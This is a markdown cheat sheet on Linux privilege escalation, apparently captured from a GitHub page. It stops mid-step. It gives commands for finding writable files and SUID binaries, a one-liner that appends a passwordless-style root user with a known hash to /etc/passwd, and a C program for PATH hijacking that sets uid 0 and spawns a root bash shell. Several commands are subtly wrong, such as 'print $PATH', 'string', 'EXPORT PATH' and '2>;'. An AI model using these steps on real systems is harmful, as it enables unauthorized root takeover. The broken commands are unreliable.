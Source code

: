 ## Exploit Weak File Permission 
Finding writable files in a root directory
```
find / -writable -type f 2&gt;/dev/null
find /etc -maxdepth 1 -writable -type f
```

Find all writable directory
```
find / -executable -writable -type d 2&gt; /dev/null
```
Find all readable files
```
find /etc -maxdepth 1 -readable -type f
```
As a example if /etc/passwd is writable, we can add new root user:
```
openssl passwd -1 -salt byte password
echo 'byte:$1$byte$hMDtu8nzkmElSsWOB8IyZ0:0:0:byte:/root:/bin/bash'&gt;&gt;/etc/passwd
```

## Exploit SUID/SGID 

SUID = Run the program with permission of Creator
SGIT = Run the program with permission of Group

### Find SUID

```
find / -perm -4000 -type f -exec ls -la {} 2>;/dev/null \;

find / -uid 0 -perm -4000 -type f 2>/dev/null

find / -perm -u=s -type f 2>/dev/null
```

Search for known exploit in google or searchsploit.

## Exploit Environment Variable 

First we need to find SUID application
```
find / -uid 0 -perm -4000 -type f 2>/dev/null
```
Get Current environment variables:
```
print $PATH
```
For additional information, We can verify what the vulnerable application is doing:
```
string /usr/bin/local/app
```
Compile this code(/tmp/app.c) to exploit the vulnerability:
```
#gcc service.c -o /tmp/app
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```
Export the path:
```
EXPORT PATH=/tmp:$PATH
```
Now execute the vulnerable app:
